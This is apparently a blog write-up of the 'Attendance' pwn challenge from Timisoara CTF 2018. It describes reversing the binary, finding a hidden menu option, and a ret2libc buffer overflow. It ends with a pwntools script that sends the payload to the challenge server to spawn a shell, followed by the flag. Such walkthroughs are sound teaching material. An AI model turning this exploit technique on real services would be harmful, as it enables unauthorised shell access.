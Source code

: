 ```yaml
---
layout: post
title: Timisoara CTF 2018 - Attendance
image: "/assets/img/2018/timisoaractf2018/attendance/1.png"
categories: [general, timisoaractf2018]
tags: [timisoaractf2018, writeup]
twitter_text: "Write-up for Attendance"
introduction: "Write-up for Attendance"
description: "Write-up for Attendance"
---
```




![](/assets/img/2018/timisoaractf2018/attendance/1.png)

I will first look the file with binaryninja.

The main function :

![](/assets/img/2018/timisoaractf2018/attendance/2.png)

You can see that the binary ask us an action. If I go down a little in the main function, I can see that the input I will give to the binary will be compared. For example if my entry is 2, then we’ll call student 2. If I enter 3, we’ll call student 3,…

![](/assets/img/2018/timisoaractf2018/attendance/3.png)

So let’s try if it works :

![](/assets/img/2018/timisoaractf2018/attendance/4.png)

We can see that it is working and that we are leaving the program directly. Let’s go back to examine the binary, a comparison draws my attention below the students in the main function :

![](/assets/img/2018/timisoaractf2018/attendance/5.png)

If my entry is equal to 0x7a69(31337 in decimal) we jump to the function called « principal ». Let’s take a look at this function :

![](/assets/img/2018/timisoaractf2018/attendance/6.png)

As you can see, we can leave a message with the principal, so we’re gonna try this :

![](/assets/img/2018/timisoaractf2018/attendance/7.png)

The vulnerability will therefore be at the moment when we leave the message to the principal. I will now use the ret2libc vulnerability. To use this vulnerability we need:

**Padding + p system + p exit + p ‘/bin/sh’**

after a while, I arrived at 41 in padding, to find the system and exit address I have to run the binary with gdb, put a breakpoint on the main. Then using these commands I get the addresses:
**p system**
**p exit**

![](/assets/img/2018/timisoaractf2018/attendance/8.png)

Now I just need to find the address of the string « /bin/sh » in the binary. For that I go back to look around BinaryNinja and I look at the function bring_students_to_school, and I see my « /bin/sh », it only remains for me to find its address. With objdump I find the address of the function :

![](/assets/img/2018/timisoaractf2018/attendance/9.png)

Now that we have everything we juste need a script to automate the pwn :

```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *
import struct

p = remote("89.38.210.128", 31337)
Call = p.recvuntil("Call>")
print(Call)
payload ="31337"
p.send(payload)
p.recv(1024)
p.send("A"*41+p32(0xf7df67d0)+p32(0xf7de9b10)+p32(0x08048660))
p.interactive()
#cat /home/attendance/flag
#timctf{l1ttl3_th1ngs_m4k3_b1g_th1ngs_h4pp3n}
```

![](/assets/img/2018/timisoaractf2018/attendance/10.png)
